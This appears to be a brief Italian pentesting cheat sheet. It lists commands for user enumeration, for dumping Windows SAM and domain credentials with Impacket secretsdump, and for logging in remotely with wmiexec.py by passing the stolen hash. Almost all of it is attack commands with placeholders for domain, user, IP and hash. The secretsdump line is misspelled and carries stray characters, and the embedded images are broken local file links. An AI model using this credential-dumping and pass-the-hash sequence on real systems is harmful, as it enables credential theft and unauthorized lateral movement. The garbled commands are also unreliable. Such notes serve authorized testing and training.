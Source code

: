 ### **ENUMERAZIONE**
```powershell
net user <username>
```

![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png)

### **DUMP SAM DATABASE**
```bash
secrestdump.py <NOME DOMINIO>l/<USER>t@<IP>
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png)

Logga usando wmiexec e l'hash trovato
```bash
wmiexec.py <NOME DOMINIO>/<USER>@<IP> -hashes <HASH>
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)